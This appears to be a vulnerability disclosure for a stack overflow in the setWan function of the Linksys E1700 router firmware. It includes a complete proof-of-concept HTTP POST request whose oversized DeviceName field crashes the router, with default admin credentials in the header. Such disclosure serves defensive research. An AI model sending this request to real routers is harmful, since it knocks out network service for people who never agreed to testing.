

# Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `setWan` function, `DeviceName、lanIp` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `DeviceName、lanIp` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `DeviceName、lanIp` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `DeviceName` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/setWan HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2779
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/network/basic.shtml;session_id=8KFwcdOYnGQSkt4b7JA6tK2orOEtfyhl
Cookie: FSSBBIl1UgzbN7N80T=10AvEXQLoH_LTmuvzkUgS7anfnAFAZXlQ.4PMSCFs3avj98CUbW5VYXmf4CkeSpLPaWxcQ000fJAH3_BOkD7VykscSuQJfxEIZbHIOwMJVLj9vWKrmgvvmPoa1KPJ3tYwIoQdq46yNEXN5dq7oZPOz5tTcDb4Nuw9qNaWSCoAnSAbounMM_u0bVaK.j00N.1T4u9XeFlZLMuY9MxXFOGPyvoHWdW0a6Bx7Mt86gLuuve7q.yaVnqOKvGvDgL3AzdKWNdO5YiPu_4RNlsYNe4m7bcnw6hDsdmjrfDZxwqCUN_8oA; FSSBBIl1UgzbN7N80S=.iPMLVrFLUcIxtwVKrClZYGZBzGzC149V9FiutQKysXJDYBDCqewOf5IavZkllZz; XSRF_TOKEN=1443376541; session_id=wxymTijRhkqwLcDL0EkyY62Yjw1n3Tkx
Upgrade-Insecure-Requests: 1

token=8KFwcdOYnGQSkt4b7JA6&langSelection=EN&connectionType=DHCP&staticIp=&staticIp_1=0&staticIp_2=0&staticIp_3=0&staticIp_4=0&staticNetmask=&staticNetmask_1=0&staticNetmask_2=0&staticNetmask_3=0&staticNetmask_4=0&staticGateway=&staticGateway_1=0&staticGateway_2=0&staticGateway_3=0&staticGateway_4=0&staticPriDns=&staticPriDns_1=0&staticPriDns_2=0&staticPriDns_3=0&staticPriDns_4=0&staticSecDns=&staticSecDns_1=0&staticSecDns_2=0&staticSecDns_3=0&staticSecDns_4=0&staticTrdDns=&staticTrdDns_1=0&staticTrdDns_2=0&staticTrdDns_3=0&staticTrdDns_4=0&pppoeUser=&pppoePass=&pppoe_service_name=&pppoeOPMode=KeepAlive&pppoeIdleTime=15&pppoeRedialPeriod=30&pptpIp=&pptpIp_1=0&pptpIp_2=0&pptpIp_3=0&pptpIp_4=0&pptpNetmask=&pptpNetmask_1=0&pptpNetmask_2=0&pptpNetmask_3=0&pptpNetmask_4=0&pptpGateway=&pptpGateway_1=0&pptpGateway_2=0&pptpGateway_3=0&pptpGateway_4=0&pptpPriDns=&pptpPriDns_1=0&pptpPriDns_2=0&pptpPriDns_3=0&pptpPriDns_4=0&pptpSecDns=&pptpSecDns_1=0&pptpSecDns_2=0&pptpSecDns_3=0&pptpSecDns_4=0&pptpTrdDns=&pptpTrdDns_1=0&pptpTrdDns_2=0&pptpTrdDns_3=0&pptpTrdDns_4=0&pptpServer=&pptp_server_1=0&pptp_server_2=0&pptp_server_3=0&pptp_server_4=0&pptpUser=&pptpPass=&pptpMode=1&pptpOPMode=KeepAlive&pptpIdleTime=15&pptpRedialPeriod=30&l2tpServer=&l2tp_server_1=0&l2tp_server_2=0&l2tp_server_3=0&l2tp_server_4=0&l2tpUser=&l2tpPass=&l2tpMode=1&l2tpOPMode=KeepAlive&l2tpIdleTime=15&l2tpRedialPeriod=30&telstraServer=&telstra_server_1=0&telstra_server_2=0&telstra_server_3=0&telstra_server_4=0&telstraUser=&telstraPass=&telstraMode=1&telstraOPMode=KeepAlive&telstraIdleTime=15&telstraRedialPeriod=30&ppp_demand=1&ppp_redialperiod=30&hostname=&domainname=&useDefaultMTU=1&bridge_connectionType=DHCP&bridgeIp=&bridgeNetmask=&bridgeGateway=&lanIp=192.168.1.1&lanIp_1=192&lanIp_2=168&lanIp_3=1&lanIp_4=1&lanNetmask=255.255.255.0&DeviceName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&dhcp_enable=1&dhcp_start_ip_4=100&dhcp_start_ip=192.168.1.100&dhcp_end_ip=192.168.1.149&dhcp_end_ip_1=192&dhcp_end_ip_2=168&dhcp_end_ip_3=1&dhcp_end_ip_4=149&dhcp_max_num=50&dhcp_lease_minute=0&dhcp_lease=86400&dhcp_dns1=0.0.0.0&dhcp_dns1_1=0&dhcp_dns1_2=0&dhcp_dns1_3=0&dhcp_dns1_4=0&dhcp_dns2=0.0.0.0&dhcp_dns2_1=0&dhcp_dns2_2=0&dhcp_dns2_3=0&dhcp_dns2_4=0&dhcp_dns3=0.0.0.0&dhcp_dns3_1=0&dhcp_dns3_2=0&dhcp_dns3_3=0&dhcp_dns3_4=0&dhcp_wins=0.0.0.0&dhcp_wins_1=0&dhcp_wins_2=0&dhcp_wins_3=0&dhcp_wins_4=0&time_zone=PST_-08&daylight_saving_time=1
```


## Result

The target router crashes and cannot provide services correctly and persistently.
